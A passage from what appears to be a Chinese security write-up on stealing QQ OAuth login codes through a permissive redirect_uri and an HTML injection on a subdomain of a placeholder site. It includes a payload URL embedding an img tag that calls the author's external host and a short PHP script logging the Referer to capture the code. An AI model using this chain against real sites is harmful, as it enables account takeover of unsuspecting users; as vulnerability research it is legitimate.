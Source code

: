**Request 2：**(这个请求表示根据参数**code**的值进行个人用户凭证生成)

```http
GET /?uuid=65392bc3fc724fca8dcba23558f67ec8&code=120ED71CAECB11BAD538820E12B54664 HTTP/1.1
Host: a.com
```

**2 Response：**（setcookie返回用户凭证）

```http
HTTP/1.1 302 Moved Temporarily
Content-Length: 0
Connection: close
Set-Cookie: 用户凭证
Location: https://www.a.com/
Cache-Control: max-age=0
```

这时候我们就可以注意到问题了，请求1产生了一个链接，其就是QQ登陆的地址中的参数**redirect_uri**附带上**参数code的值**，而这个链接是生成用户凭证的，所以链接中的**参数code**也是至关重要的，看到这里我的攻击思路已经产生了：

假设QQ登陆的地址中的参数**redirect_uri**的值可以为我的网站，那么只要用户A点击我就可以根据网站日志访问记录获取参数**code**的值再根据请求2获取用户A在 http://a.com 的账号权限。

理想很好，现实残酷：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-02-12/0x02.jpg)

这里QQ做了限制，我不需要去分析QQ关联的全部流程就能知道这里的参数client_id，其实就是 http://a.com 的QQ互联的服务id， http://graph.qq.com 根据client_id获取 http://a.com 的设置允许的参数**redirect_uri**的值再跟你输入的参数**redirect_uri**的值进行比较。

这时候我只需要对参数**redirect_uri**进行Fuzz就能知道哪些范围是允许的：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-02-12/0x03.jpg)

http://a.com 的二级子域名可以为参数**redirect_uri**的值，目前我需要解决的就是如何根据 http://a.com 的二级子域名获取到code的值：

# **1.我有一个HTML注入漏洞**

漏洞地址：`http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E`

getref.php的内容为如下PHP代码：

```
<?php
file_put_contents("ref.txt", $_SERVER['HTTP_REFERER']);
?>
```

将漏洞地址作为参数**redirect_uri**的值，然后诱导用户A点击登陆，这时候跳转的链接就变成了：

> http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E&code=120ED71CAECB11BAD538820E12B54664

跳转之后这个链接会做为HTTP Referer的值再请求[http://www.evilchen.cn/getref.php]，那么我的服务器就会接收到code的值，再根据Request 2的值填入，我就可以获取用户A在a.com的账号权限了

# **2.我能在其他地方引用外部资源**
